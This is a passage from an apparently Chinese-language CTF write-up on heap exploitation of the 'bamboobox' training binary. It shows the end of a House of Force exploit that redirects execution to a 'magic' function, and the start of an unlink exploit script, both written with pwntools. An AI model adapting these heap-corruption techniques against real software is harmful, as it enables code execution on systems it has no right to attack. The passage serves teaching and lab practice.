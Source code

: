 ```python
    #  DEBUG()
    change(0, 0x60 + 0x10, cyclic(0x60) + p64(0) + l64(-1))
    add(-(0x60 + 0x10) - (0x10 + 0x10) - 0x10, 'aaaa') # -(sizeof(item)) - sizeof(box) - 0x10
    add(0x10, p64(ELF("./bamboobox").sym['magic']) * 2)
    exit()

    io.interactive()
    io.close()
```

> 快速确定需要 malloc 的大数/负数可以使用 Pwngdb 的 force 功能, 这里我做了一个 [fork](https://github.com/0x01f/Pwngdb), 把 Pwngdb 和 pwndbg 的功能做了一个合并


#### unlink

至于 unlink，在这个 [slide](https://github.com/M4xW4n9/slides/blob/master/pwn_heap/malloc-150821074656-lva1-app6891.pdf) 中有较大篇幅的介绍，就不在说明原理了

```python
lab11 [master●] cat unlink.py 
#!/usr/bin/env python
# -*- coding: utf-8 -*-
__Auther__ = 'M4x'

from pwn import *
from time import sleep
import sys
context.arch = 'amd64'
context.log_level = "debug"
context.terminal = ["deepin-terminal", "-x", "sh", "-c"]

io = process("./bamboobox")
# process("./bamboobox").libc will assign libc.address but ELF("./bamboobox") won't
#  libc = io.libc
elf = ELF("./bamboobox")
libc = elf.libc

def DEBUG():
	raw_input("DEBUG: ")
	gdb.attach(io)

def show():
    io.sendlineafter(":", "1")

def add(length, name):
    io.sendlineafter(":", "2")
    io.sendlineafter(":", str(length))
    io.sendafter(":", name)

def change(idx, length, name):
    io.sendlineafter(":", "3")
    io.sendlineafter(":", str(idx))
    io.sendlineafter(":", str(length))
    io.sendafter(":", name)

def remove(idx):
    io.sendlineafter(":", "4")
    io.sendlineafter(":", str(idx))

def exit():
    io.sendlineafter(":", "5")

if __name__ == "__main__":
    add(0x40, '0' * 8)
```